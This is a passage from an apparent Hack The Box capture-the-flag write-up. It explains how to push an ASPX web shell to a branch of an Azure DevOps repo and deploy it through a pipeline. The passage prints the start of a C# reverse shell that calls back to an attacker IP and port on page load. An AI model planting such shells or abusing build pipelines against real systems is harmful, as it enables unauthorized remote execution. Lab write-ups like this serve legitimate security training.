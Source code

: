 Since we can make a new branch on any of the  SmartHotel360 team repos, we can upload a shell on a new branch and request a merge with the master branch. After that, once we are ready, we can make pipeline task which will push our malicious code onto the website and gain remote execution.

for the shell content, any web shell written in c# in the aspx format will do. Just change the IP/PORT in the shell to match your machine

```csharp
at /home/tyr4n7/HTB/useful/shell.aspx                                                                                                                                                                                             130 ⨯
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Runtime.InteropServices" %>
<%@ Import Namespace="System.Net" %>
<%@ Import Namespace="System.Net.Sockets" %>
<%@ Import Namespace="System.Security.Principal" %>
<%@ Import Namespace="System.Data.SqlClient" %>
<script runat="server">
//Original shell post: https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/
//Download link: https://www.darknet.org.uk/content/files/InsomniaShell.zip
    
	protected void Page_Load(object sender, EventArgs e)
    {
	    String host = "10.10.14.7"; //CHANGE THIS
            int port = 4994; ////CHANGE THIS
                
        CallbackShell(host, port);
    }
...
```
I'll upload the shell on Spectral repo. Let's first make a work item by going to `Boards -> Work items -> Create new work item`

![](/assets/images/htb-writeup-worker/devops_login.png)
